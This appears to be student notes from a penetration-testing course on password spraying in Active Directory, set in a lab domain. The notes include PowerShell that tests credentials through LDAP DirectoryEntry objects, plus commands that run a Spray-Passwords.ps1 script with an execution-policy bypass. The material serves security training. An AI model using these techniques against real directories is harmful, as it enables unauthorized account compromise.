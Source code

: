 An attack like this might consist of compiling a short list of very common passwords and leveraging it against a massive amount of users
+ Sometimes this type of attack can reveal quite a few weak account passwords in the organization

However, this would also generate a huge amount of network traffic
+ Let's review three kinds of password spraying attacks that have a higher chance of success in an AD environment

#### Password Spraying Using LDAP and ADSI
The first kind of password spraying attack uses LDAP and ADSI to perform a _low and slow_ password attack against AD users
+ In the Module _Active Directory Introduction and Enumeration_, we performed queries against the domain controller as a logged-in user with _DirectoryEntry_ 
+ However, we can also make queries in the context of a different user by setting the _DirectoryEntry_ instance

In the Module _Active Directory Introduction and Enumeration_, we used the _DirectoryEntry_ constructor without arguments, but we can provide three arguments, including the LDAP path to the domain controller, the username, and the password:
``` powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```
+ If the password for the user account is correct, the object creation will be successful, as shown below:
```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```
+ If the password is invalid, no object will be created and we will receive an exception, as shown below:
	+ To address this, let's change the password in the constructor to **`WrongPassword`**
	+ We'll note the clear warning that the user name or password is incorrect
```
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or
password is incorrect.
"
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemException
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.FormatDefaultCommand
```

We could use this technique to create a PowerShell script that enumerates all users and performs authentications according to the _Lockout threshold_ and _Lockout observation window_
+ This password spraying tactic is already implemented in the PowerShell script **`C:\Tools\Spray-Passwords.ps1`** on CLIENT75
+ The **-Pass** option allows us to set a single password to test, or we can submit a wordlist file using _-File_
+ We can also test admin accounts by adding the **-Admin** flag
+ The PowerShell script automatically identifies domain users and sprays a password against them:
```
.\Spray-Passwords.ps1 -Pass <PASSWORD> -Admin
```
+ Example:
```
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> powershell -ep bypass
...

PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```